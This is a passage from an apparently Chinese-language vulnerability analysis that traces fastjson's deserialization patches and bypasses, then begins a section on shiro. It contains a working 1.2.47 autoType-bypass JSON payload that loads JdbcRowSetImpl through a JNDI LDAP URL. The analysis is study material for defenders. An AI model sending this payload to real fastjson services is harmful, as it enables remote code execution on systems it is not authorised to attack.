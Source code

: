 ##### 1.2.43

![](https://mdpicture.oss-cn-beijing.aliyuncs.com/20191025112811.png)

简单粗暴的修补，类名开头如果是`LL`直接抛异常。

##### 1.2.47

前面几个绕过都是在`autoType`开启的前提下，然而`autoType`默认是关闭的，绕过`autoType`也成为了攻击fastjson最核心也是最困难的部分。

这次漏洞是通过java.lang.Class，将JdbcRowSetImpl类加载到map缓存，从而绕过autotype的检测。

payload：

```json
{"a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://localhost:1099/Exploit","autoCommit":true}}}
```

首先还是`checkAutoType`：

`fastjson-1.2.47-sources.jar!/com/alibaba/fastjson/parser/ParserConfig.java`

![](https://mdpicture.oss-cn-beijing.aliyuncs.com/20191025162647.png)

如果`autoType`是关闭的，可以看到并没有进行黑名单的检测。首先会尝试从一个map（缓存）中获取`@type`参数对应的class，如果没有就调用`findClass`方法。

`fastjson-1.2.47-sources.jar!/com/alibaba/fastjson/serializer/MiscCodec.java`

![](https://mdpicture.oss-cn-beijing.aliyuncs.com/20191025164424.png)

之后会尝试取`val`属性的值，这里我们设置为了`com.sun.rowset.JdbcRowSetImpl`。

![](https://mdpicture.oss-cn-beijing.aliyuncs.com/20191025164935.png)

接下来，如果`@type`的值为`Class`时，会将`strVal`传入`loadClass`方法：

`fastjson-1.2.47-sources.jar!/com/alibaba/fastjson/util/TypeUtils.java`

![](https://mdpicture.oss-cn-beijing.aliyuncs.com/20191025165253.png)

如果缓存开启，会将这个类放入map中，这样我们需要使用的恶意类就绕过了过滤放入了运行的context中。

通过前面我们知道，当进行第二步解析调用时，会尝试调用`getClassFromMapping`方法，这时`com.sun.rowset.JdbcRowSetImpl`已经在里面了。

![](https://mdpicture.oss-cn-beijing.aliyuncs.com/20191025170950.png)

##### 1.2.48

![](https://mdpicture.oss-cn-beijing.aliyuncs.com/20191025171555.png)

fastjson官方修漏洞向来简单粗暴，把缓存设置为默认关闭，完事。。。

### shiro

仅仅靠shiro中的依赖并没有合适的gadget，利用是需要依靠整个项目中的其他依赖，这里记录一下坑点吧。

首先在环境搭建上，由于shiro 1.2.4版本比较老，依赖jdk1.6。

